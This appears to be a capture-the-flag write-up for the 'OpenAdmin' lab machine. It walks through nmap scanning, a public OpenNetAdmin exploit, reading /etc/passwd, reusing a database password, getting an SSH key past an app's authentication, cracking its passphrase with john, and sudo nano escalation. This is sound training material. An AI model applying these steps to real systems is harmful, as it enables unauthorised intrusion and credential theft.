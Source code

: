 # OpenAdmin

## Overview 

OpenAdmin is an easy difficulty Linux machine that features an outdated OpenNetAdmin CMS instance. The CMS is exploited to gain a foothold, and subsequent enumeration reveals database credentials. These credentials are reused to move laterally to a low privileged user. This user is found to have access to a restricted internal application. Examination of this application reveals credentials that are used to move laterally to a second user. A sudo misconfiguration is then exploited to gain a root shell.

## Initial Recon

```
nmap -p 1-10000 -sV -sS --version-intensity 9 -T4 -Pn $IP
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 15:24 UTC
Nmap scan report for 10.10.10.171
Host is up (0.19s latency).ob
Not shown: 9998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.55 seconds
```

## User flag

### Port 80

```
dirb http://$IP
```

`/artwork` -> not interesting
`/music` -> login page redirect to `/ona` which is OpenNetAdmin, we see a version number: `v18.1.1`
`/server-status` -> forbidden

### OpenNetAdmin

Quickly we find a known exploit for the version v18.1.1: https://www.exploit-db.com/exploits/47691

Running this exploit gives us a shell as `www-data`.

```
cat /etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

Two users are interesting: `jimmy` and `joanna`, this is confirmed by a simple `ls /home` showing us the two users home directories.

After some enumeration, we find a database config file `local/config/database_settings.inc.php` with the following content:

```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

Luckily, the database password is the same as jimmy's password `n1nj4W4rri0R!`.

### SSH

```
cat /etc/apache2/sites-enabled/internal.conf
```

```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

The files of the internal web app are writable by our current user so we can just remove the authentication to access the main.php file printing joana's rsa key. However the `index.php` file is interesting and contains an hardcoded hash in the authentication process.

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
````

Using https://hashes.com/en/decrypt/hash we find the cleartext password: `Revealed`.

Now we need to crack the passphrase of the private key we got earlier.

```
ssh2john joana_id_rsa > johnidrsa
```
```
john --wordlist=/usr/share/john/rockyou.txt --format=SSH johnidrsa
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joana_id_rsa)
```

We found the private key and the passphrase is `bloodninjas`.
Now we can login with ssh as `joanna` using the private key and the passphrase.

```
ssh -i joana_id_rsa joanna@$IP
```

The user.txt flag is in the `joanna` home directory.

## Privilege Escalation

### Sudo

As joanna user, we can see in /etc/sudoers.d that the file `joanna` allows us to run nano as root.

```
cat /etc/sudoers.d/joanna
```
```
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

Using https://gtfobins.github.io/gtfobins/nano/#sudo we have different options to escalate our privileges.

The root flag is in `/root/root.txt`.